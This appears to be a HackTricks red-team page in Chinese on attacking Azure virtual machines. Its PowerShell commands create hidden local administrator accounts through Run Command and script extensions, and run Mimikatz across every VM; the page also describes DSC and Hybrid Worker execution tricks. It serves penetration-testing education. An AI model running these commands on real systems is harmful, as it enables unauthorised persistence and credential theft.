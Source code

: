 # Az - 虚拟机 & 网络

{% hint style="success" %}
学习并练习 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习 GCP 黑客技术: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 虚拟机是 Azure 提供的几种[按需、可扩展的计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)之一。通常，当您需要比其他选择提供更多对计算环境的控制时，您会选择虚拟机。本文为您提供在创建虚拟机之前应考虑的信息，如何创建虚拟机以及如何管理虚拟机。

## Azure 网络信息

Azure 网络包含**不同的实体和配置方式**。您可以在以下位置找到有关不同 Azure 网络实体的**简要描述**、**示例**和**枚举**命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure 堡垒

**Azure 堡垒**提供了一个安全、完全托管的通过 Azure 门户使用 SSL 的 RDP (远程桌面协议) 和 SSH (安全外壳) 访问解决方案。它集成在 Azure 虚拟网络中，允许使用私有 IP 地址连接到 VM 的 RDP 和 SSH，避免了对公共 IP 的需求。这使其成为传统方法的更安全、更便捷的替代方案，传统方法涉及为 VM 访问配置公共 IP 地址和 NSG 规则。开发人员和 IT 人员可以使用他们的 Web 浏览器从 Azure 门户安全地访问 VM，简化了开发和测试环境的流程。

要列出订阅中的所有 Azure 堡垒主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **在虚拟机中进行AAD登录**

可以允许通过AzureAD进行身份验证的用户访问。例如，尝试访问**Linux虚拟机**：`ssh username@azure-corp.com@1.1.1.1`（重要的是**使用在尝试登录时使用的azurecorp电子邮件**），可能会出现错误：
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照以下说明**访问 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭据，然后您就可以通过SSH连接（如果该用户具有足够的权限执行此操作：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure虚拟机（VM）扩展是提供在Azure VM上进行部署后配置和自动化任务的**小型应用程序**。例如，如果虚拟机需要软件安装、防病毒保护或在其中运行脚本的能力，您可以使用VM扩展。

因此，如果您有权限编写它，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC)是类似于Ansible的PowerShell工具，用于通过代码设置主机。DSC与Azure集成，允许上传特定配置文件。这些文件必须遵循严格的语法。值得注意的是，Azure中的DSC扩展可以执行来自符合特定格式标准的文件的命令，即使语法不符合DSC标准，如所示的图。

这些命令的执行由Az PowerShell中的[**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0)函数实现。要求包括一个带有定义函数的**.PS1**文件，并且该文件必须被压缩成**.zip**文件。即使语法可能不符合DSC的要求，代码仍将执行。但是，扩展将标记执行状态为“失败”，由于状态被失败消息覆盖，因此命令的输出将不可见。

### VM应用程序定义

VM应用程序定义允许将经过版本化的应用程序重复部署到Azure VM。此资源支持在VM上部署和更新应用程序。要设置此功能，需要执行几个步骤，涉及Az PowerShell中的**`New-AzGalleryApplication`**和**`New-AzGalleryApplicationVersion`**等命令。

通过此方法执行应用程序或命令涉及**“VMAppExtension”**，当应用程序应用到VM时，此扩展会自动安装。该扩展从指定的URI检索文件，并将其命名为应用程序的名称，不带扩展名。为了正确执行文件，必须配置REST API调用中的“ManageActions”字段以使用适当的扩展名重命名文件。一旦完成此方法的设置，其结构将类似于所提供的图示。

然而，此执行方法相对较慢，大约需要3-4分钟来执行一个应用程序或命令。与此过程相关的文件存储在特定目录中（`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`用于应用程序副本，`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`用于执行状态）。

这两种技术提供了在Azure环境中执行命令和部署应用程序的独特方法，每种方法都有自己的一套要求、步骤和考虑事项。

### Azure中的混合工作组（HWGs）

[**混合工作组（HWGs）**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker)是Azure中的一个功能，允许在配置在自动化帐户中的Runbook在指定HWG的Azure虚拟机（VM）上执行。此执行通过安装在VM上的扩展实现，该扩展将Runbook代码部署到VM上。此过程的一个重要方面是实际凭据不影响执行，因为代码以提升的权限，特别是作为**SYSTEM**或root运行，如所提供的图示所示。

对于使用Windows 10 VM的用户的一个关键细节是必须为Runbook指定PowerShell版本。应将其设置为以PowerShell版本5.1运行，而不是7.1。这一要求源于Windows 10 VM上默认未安装PowerShell 7.1，如果指定了版本7.1，则会导致脚本执行失败。

Azure的这一功能为在混合环境中自动化和管理任务提供了强大的方法，允许在Azure VM上集中管理和执行任务。

## 参考资料

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)
